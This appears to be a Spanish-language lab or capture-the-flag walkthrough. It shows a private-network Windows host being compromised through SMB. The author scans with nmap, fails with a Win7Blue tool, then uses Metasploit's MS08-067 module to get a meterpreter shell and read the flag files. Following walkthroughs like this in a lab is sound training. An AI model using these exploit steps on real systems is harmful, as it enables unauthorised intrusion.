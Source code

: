 
IP local: 10.0.22.4<br>
IP remota: 10.0.22.6 <br>
***Abrimos consola***
- netdiscover -r 10.0.22.0/24
	- *Descubrimos que ip sale que no es usual*	
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- **PROBAMOS EL WIN7BLUE**
- cd /home/user/Desktop/Win7Blue
- chmod +x Win7Blue
- ./Win7Blue
	- $:1
	- RHOST: 10.0.22.6
- ./Win7Blue
	- $: **4** 
	- RHOST: 10.0.22.6
	- LHOST 10.0.22.4
	- LPORT: 445
	- *Darle a enter*
 -  Al no funcionar, probamos con la otra opción
	- $: **3** 
   	- RHOST: 10.0.22.6
	- LHOST 10.0.22.4
	- LPORT:445
	- *Darle a enter*
- Vemos que no funciona este método, así que recurrimos al otro con el metaexploit:

- **METAEXPLOIT**
  
- Buscamos la vulnerabilidad con el comando nmap:
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- ![Pasted image 20241009183608](https://github.com/user-attachments/assets/c32e00df-f754-439f-b292-147c71c84497)
  
- searchsploit MS08-067
- ![Pasted image 20241009183946](https://github.com/user-attachments/assets/76787312-2e7d-461b-9938-ff3b39777006)
  
- msfconsole
- search MS08-067
- use 0
- show options
- ![Pasted image 20241009184040](https://github.com/user-attachments/assets/74143a1e-1cad-4415-a660-cd2d161043d6)
  
-  set rhosts 10.0.22.6
- show options
- ![Pasted image 20241009184121](https://github.com/user-attachments/assets/85a24e73-9f71-4821-912c-92b66427865b)
  
- Exploit:
	- En este caso, no funciona ya que no se puede llegar, así que se hará una modificación de los puertos locales:
	- ![Pasted image 20241009184247](https://github.com/user-attachments/assets/030cc503-5ac2-4686-84cf-9913dff3e508)
   
- Exploit:
	- De nuevo no funciona, así que le cambiamos de nuevo el puerto:
	- ![Pasted image 20241009184353](https://github.com/user-attachments/assets/f475be53-419b-4c72-8aca-eb027f1e5973)
   
- Exploit
	- En este caso, ya ha funcionado.
- *Cuando sale el meterpreter:*
- shell
- **En este momento, ya hemos entrado al shell de la máquina vulnerable**
- dir
- dir C:\\![Pasted image 20241009184547](https://github.com/user-attachments/assets/7c56b549-809d-408b-986c-a80c155c524f)
  
- cd C:\\Documents and Settings
- dir C:\\Documents and Settings![Pasted image 20241009184616](https://github.com/user-attachments/assets/47891447-2c1e-4969-86f5-89854f5c1183)
  
- cd C:\\Documents and Settings\\bill
- dir C:\\Documents and Settings\\bill![Pasted image 20241009184654](https://github.com/user-attachments/assets/80200e24-3665-4b5d-bd2b-996a908a15c9)

- C:\\Documents and Settings\\bill\\Desktop![Pasted image 20241009184712](https://github.com/user-attachments/assets/b06888e4-266f-4ed0-a7c2-9f1e4207452a)

- type root.txt
- type user.txt
- ![Pasted image 20241009184745](https://github.com/user-attachments/assets/13cc4202-a09a-443a-b075-1d27c90ef032)




